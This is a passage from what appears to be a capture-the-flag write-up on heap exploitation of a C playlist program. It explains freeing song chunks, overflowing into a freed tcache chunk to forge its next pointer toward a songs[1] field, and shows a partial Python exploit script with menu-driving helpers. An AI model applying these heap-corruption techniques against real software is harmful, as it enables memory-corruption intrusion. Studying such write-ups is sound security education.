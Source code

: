 ```c  
   printf("Removing: %s from %s\n", songs[choice].song, songs[choice].album);  
   songs[choice].song = 0;  
   songs[choice].album = 0;  
   free(songs[choice].contents);  
   songs[choice].contents = 0;  
   memset(songs[choice].song_path, 0, sizeof(songs[choice].song_path));  
   close(songs[choice].fd);  
   songs[choice].fd = 0;  
```

After allocating our two songs, we can remove them from the playlist thus
freeing the chunks associated with them.  
After this, our heap will look something like [0x690 unsorted][0x3c0 tcache].
After this, we're ready  
to use our call to read on stdin and perform the overflow. By calling malloc
on a size of zero, we're  
returned a chunk of 0x20 in size from our first unsorted bin. This means the
heap will look something  
like [0x20 chunk][0x670 unsorted][0x3c0 tcache]. From here we can set the
freed tcache chunk's next  
pointer to somewhere in the second song (for our purposes, we will
use`songs[1].album`, however the exact  
location is slightly misaligned for the exploit). This gives us a fake linked
list that looks something like:

```  
[0x3c0 tcache] -> &songs[1].album  
```

or in a picture:

```  
                         +-------------+  
             songs[1] -->| song_path   |  
 |heap, 0x3c0 tcache| -->| album       |  
			  | contents    |  
                         +-------------+  
```  
In order to do this, we'll have to overflow the 0x20 chunk and the 0x670
unsorted chunk. This gives us an even 0x690 bytes (nice).  
Now our exploit looks something like this:

```python  
def playsong(songnum):  
       proc.recvuntil("Choice:")  
       proc.sendline("3")  
       proc.recvuntil("Choice:")  
       proc.sendline(str(songnum))

def freesong(songnum):  
       proc.recvuntil("Choice:")  
       proc.sendline("4")  
       proc.recvuntil("Choice:")  
       proc.sendline(str(songnum))

def stdsong(songnum, len, data):  
       playsong(songnum)  
       proc.sendline(str(len))  
       proc.send(data)

for i in range(3, ord('.') - 1):  
       addsong("Animal/animal.txt")  
addsong("Animal/dinosaur.txt")  
addsong("Animal" + "/" * (24 - len("Animal")))

playsong(43)  
```